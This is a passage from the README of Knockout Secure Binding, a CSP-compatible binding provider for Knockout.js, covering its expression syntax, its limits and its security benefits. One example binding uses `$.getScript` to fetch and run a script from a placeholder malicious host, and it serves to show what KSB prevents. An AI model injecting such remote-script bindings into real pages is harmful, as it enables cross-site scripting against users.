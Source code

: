 This means that the following ought to work as expected:

```
<span data-bind='text: 42'></span>
<span data-bind='text: obs'></span>
<span data-bind='text: obs()'></span>
<span data-bind='text: obs_a() || obs_b()'></span>

<!-- The following are unwrapped because they are part of an expression-->
<span data-bind='text: obs_a || obs_b'></span>

<span data-bind='text: 1 + 2 / (obs % 4)'></span>
<span data-bind='css: { class_name: obs_a <= 400 }'></span>
<a data-bind='click: fn, attr: { href: obs }'></a>
```

The sbind language understands both compound identifiers (e.g. `obs()[1].member()` and expressions (e.g. `a + b * c`)). A full list of operators supported is below. Check out the `spec/knockout_secure_binding_spec.js` for a more thorough list of expressions that work as expected.

There are some restrictions on the sbind language. These include:

- it will not dereference static objects so the following will not work: `{ a: 1 }[obs()]`.
- functions do not accept arguments.


Security implications
---

As mentioned, one cannot use the default Knockout binding provider when a
Content Security Policy prohibits unsafe evaluations (`eval`,
`new Function`, `setTimeout(string)`, `setInterval(string)`).

Prohibiting unsafe evaluations with a Content Security Policy substantially substantially reduces the risk
of a cross-site scripting attack. See for example [Preventing XSS with Content Security Policy](http://benvinegar.github.io/csp-talk-2013/).

By using KSB in place of the regular binding provider one can continue to use
Knockout in an environment with a Content Security Policy. This includes for example [Chrome web apps](http://developer.chrome.com/apps/contentSecurityPolicy.html).

Independent of a Content Security Policy, KSB can help prevent the execution of arbitrary code in a Knockout binding. A malicious script such as
`text: $.getScript('http://a.bad.place.example.com/a.bad.bad.thing')` could be executed in Knockout on a DOM element that is having bindings applied. However with CSP and KSB you can prevent this script from executing by/because:

1. Not including `$` as a global;
2. Functions in KSB do not accept arguments;
3. You can use a CSP white-list, which prevents accessing the (presumably unknown) host `a.bad.place`.


Options
---
